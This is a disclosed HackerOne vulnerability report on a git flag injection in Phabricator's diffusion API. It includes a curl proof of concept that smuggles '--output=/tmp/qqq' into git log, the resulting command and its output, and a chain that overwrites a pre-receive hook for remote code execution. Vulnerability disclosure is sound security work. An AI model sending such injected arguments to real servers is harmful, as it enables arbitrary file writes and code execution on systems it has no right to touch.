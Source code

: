 # Git flag injection leads to arbitrary file write

## Report Details
- **Report ID**: 1070247
- **URL**: https://hackerone.com/reports/1070247
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-01-02T16:03:35.444Z
- **Disclosed**: 2021-07-25T15:13:13.761Z

## Reporter
- **Username**: crownpeanut
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
keyword : mongoose

#PoC
1.  Login and generate API token
2. Create a repo and push several commits to phabricator
3. Execute diffusion api
```
curl http://dev.localhost/api/diffusion.internal.gitrawdiffquery \
    -d api.token=api-token \
    -d commit=--output%3D/tmp/qqq \
    -d repository=R2
```

4. `qqq` file will be created in `tmp` directory. And the content of  `qqq` contains the output of git log.

#Description
`git log` command is used to show git history in phabricator. 
API such as diffusion.internal.gitrawdiffquery and [several others](https://sourcegraph.com/search?q=repo:%5Egithub%5C.com/phacility/phabricator%24+%22%27log+%22+-file:test+count:1000&patternType=regexp&case=yes) use git log command to retrieve commit details.
Because lack of validation of `commit` parameter, [this line](https://github.com/phacility/phabricator/blob/b2ab18f8f3d0cbab55b92da7a5fcbc0e148a4c99/src/applications/diffusion/conduit/DiffusionInternalGitRawDiffQueryConduitAPIMethod.php#L99:20) will create command below when PoC is executed

```
git log -n1 -M -C -B --raw -t 'abbrev=40' --pretty-format: '--output=/tmp/qqq'
```

The content of `qqq` after api is executed.
```
$ cat /tmp/qqq
:100644 100644 848bd2831d44979d9e9ad553401d513b1d591c68 4f2e7bd7f250114d6b14fcf3a775391f49e85ed0 M      a.c
```

Notice that `/tmp/qqqq` is controllable path. By specifying the right path it is possible to do arbitrary write.

If `/var/repo` is owned by `www-data`, attacker could rewrite `pre-receive` hook by commit filename `; ls` which the payload would be like file below.

```
$ cat /tmp/qqq
:100644 100644 848bd2831d44979d9e9ad553401d513b1d591c68 4f2e7bd7f250114d6b14fcf3a775391f49e85ed0 M      ; ls
```

This could be result in RCE when the next time `pre-receive` hook is called.

## Impact

Arbitrary file write in phabricator server. Depends on server configuration, it could result in RCE.

## Attachments
No attachments
